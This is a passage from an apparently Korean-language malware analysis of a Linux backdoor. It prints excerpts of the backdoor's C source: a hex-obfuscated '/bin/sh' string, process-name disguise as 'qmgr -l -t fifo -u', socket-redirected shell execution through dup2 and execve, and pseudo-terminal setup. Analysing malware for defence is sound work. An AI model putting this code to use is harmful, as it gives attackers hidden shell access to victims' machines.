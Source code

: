첫 번째 소켓 식별자로 `3458`{: .filepath}이라는 특정 문자열을 보내는데 공격자는 이를 통해 `shell()` 함수가 실행되었다는 것을 알 수 있다  
이 또한 변종에 따라 문자열이 달라지거나 없을 수 있다   
<br>

---

```c
char argx[] = {
        0x71, 0x6d, 0x67, 0x72, 0x20, 0x2d, 0x6c, 0x20, 0x2d, 0x74,
        0x20, 0x66, 0x69, 0x66, 0x6f, 0x20, 0x2d, 0x75, 0x00}; 
        // qmgr -l -t fifo -u
char *argvv[] = {argx, NULL, NULL};
#define MAXENV 256
#define ENVLEN 256
char *envp[MAXENV];
char sh[] = {0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00}; // /bin/sh

...

if (!open_tty()) {
        if (!fork()) {
                dup2(sock, 0);
                dup2(sock, 1);
                dup2(sock, 2);
                execve(sh, argvv, envp);
        }
        close(sock);
        return 0;
}
```

가상 터미널을 잡지 못했을 경우에는 P4의 자식 프로세스(P5)를 생성하고 P5는 입출력 및 에러 디스크립터를 소켓으로 전환하고 `execve(/bin/sh)`로 쉘을 실행한다  

여기서 환경 변수를 따로 넣는 이유는 로컬 서버에 맞게 환경 변수를 사용하기 위함도 있지만 프로세스가 위장을 위해 프로세스명을 `qmqr -l -t fifo -u`{: .filepath}로 변경하는데 환경 변수 배열 위치를 덮어씌울 수 있기 때문이다  
<br>

---

```c
int ptys_open(int fd,char *pts_name)
{
        int fds;
 
        if ((fds = open(pts_name,O_RDWR)) < 0) {
                close(fd);
                return -5;
        }
 
 
        if (ioctl(fds,I_PUSH,"ptem") < 0) {
                return fds;
        }
 
        if (ioctl(fds,I_PUSH,"ldterm") < 0) {
        return fds;
        }
 
        if (ioctl(fds,I_PUSH,"ttcompat") < 0) {
                return fds;
        }
 
        return fds;
}
```

